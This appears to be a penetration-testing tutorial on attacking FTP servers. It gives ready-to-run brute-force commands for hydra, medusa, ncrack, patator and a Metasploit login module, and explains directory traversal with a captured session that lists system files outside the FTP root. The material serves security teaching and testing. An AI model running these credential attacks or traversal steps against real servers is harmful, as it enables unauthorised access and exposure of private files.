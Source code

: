 To connect to FTP, anyone can log in to the server if anonymous login is allowed by the administrator. An attacker can log in anonymously using the metasploit exploit or using the "ftp" tool.

## FTP Brute Forcing Methods

```bash
hydra -t 2 -L user.list -P passwords.list -M targetIPs.list -s 21 ftp
medusa -t 2 -T 2 -U user.list -P passwords.list -H targetIPs.list -n 21 -M ftp
ncrack -g CL=2 -U user.list -P passwords.list -iL targetIPs.list -p ftp:21 -oA results.txt
patator ftp_login host=10.10.x.x user=FILE0 password=FILE1 0=users.list 1=passwords.list -x ignore:mesg=’Login incorrect.’ -x ignore,reset,retry:code=500

#Metasploit Framework:
use auxiliary/scanner/ftp/login
set RHOSTS 10.10.x.x
set RPORT 21
set PASS_FILE /usr/share/wordlists/passwords.txt
set USER_FILE /usr/share/wordlists/users.txt
run
```

![Untitled](/assets/img/pitcures/ftp/ftp4.png)

## Common FTP Vulnerabilities

## Directory Traversal Attack

A Directory Traversal attack (also known as path traversal) aims to access files and directories that are stored outside the intended folder. By manipulating files with "dot-dot-slash (../)" sequences and its variations, or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system, including application source code, configuration, and other critical system files.

Directory Traversal vulnerabilities can be generally divided into two types:

- **Information Disclosure**: Allows the attacker to gain information about the folder structure or read the contents of sensitive files on the system.
- **Writing arbitrary files**: Allows the attacker to create or replace existing files. This type of vulnerability is also known as `Zip-Slip`.

```bash
# ftp 192.168.13.22
Connected to 192.168.13.22.
220 Femitter FTP Server ready.
Name (192.168.13.22:root): 
331 Password required for root.
Password:
230 User root logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls ../../../../
200 Port command successful.
150 Opening data connection for directory list.
-rwxrwxrwx   1 ftp      ftp            0 Sep 23  2015 AUTOEXEC.BAT
-rw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 CONFIG.SYS
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 Documents and Settings
dr--r--r--   1 ftp      ftp            0 Sep 23  2015 Program Files
```